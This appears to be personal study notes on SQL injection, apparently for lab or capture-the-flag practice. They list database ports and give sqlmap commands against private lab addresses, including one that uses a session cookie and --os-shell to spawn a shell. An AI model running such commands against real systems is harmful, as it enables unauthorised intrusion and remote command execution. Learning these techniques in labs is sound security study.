 <!-- https://cheatography.com/lucbpz/cheat-sheets/the-ultimate-markdown/ -->
# SQL Exploit Cheatsheet
## List of SQL Port Numbers
* **SQL Server**: tcp/1433
* **MySQL**: tcp/3306

## SLQ Injection
https://slides.com/christophe-cybr/sql-explained#/2


## sqlmap
command to find an sql injection vulnerability when there is security using cookies on a webpage
```bash
~$ sqlmap -u 'http://10.129.70.193/dashboard.php?search=anything' --cookie="858ggvh5mjtb181j0grcb6nd3q"
```

perform an sql command injection on the above setup to spawn a shell
```bash
~$ sqlmap -u 'http://10.129.45.252/dashboard.php?search=hello' --cookie="PHPSESSID=sk03u89dk558v7glib9enbl8l1" --os-shell
```
